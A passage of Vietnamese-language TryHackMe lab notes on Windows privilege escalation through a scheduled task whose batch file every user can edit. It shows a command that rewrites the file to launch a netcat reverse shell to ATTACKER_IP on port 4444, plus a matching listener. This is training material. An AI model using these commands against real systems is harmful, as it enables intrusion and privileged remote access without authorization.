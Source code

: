 ![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image175.png?raw=true)

=> Nhóm BUILTIN\Users có toàn quyền truy cập (F) đối với tệp nhị phân của tác vụ. Điều này có nghĩa là có thể sửa đổi tệp .bat và chèn bất kỳ tải trọng nào. Để thuận tiện, nc64.exe có thể được tìm thấy trên C:\tools. Thay đổi tệp bat để tạo ra một reverse shell:

    C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image176.png?raw=true)

=> Khởi động trình nghe trên máy tấn công trên cùng một cổng đã chỉ ra trên reverse shell:

    nc -lvp 4444

Lần tới khi scheduled task chạy, sẽ nhận được revese shell với các đặc quyền của taskusr1. Hoặc để tiết kiệm thời gian, có thể chạy tác vụ bằng lệnh sau:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image177.png?raw=true)

=> nhận được reverse shell với các đặc quyền của người dùng taskusr1:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image178.png?raw=true)

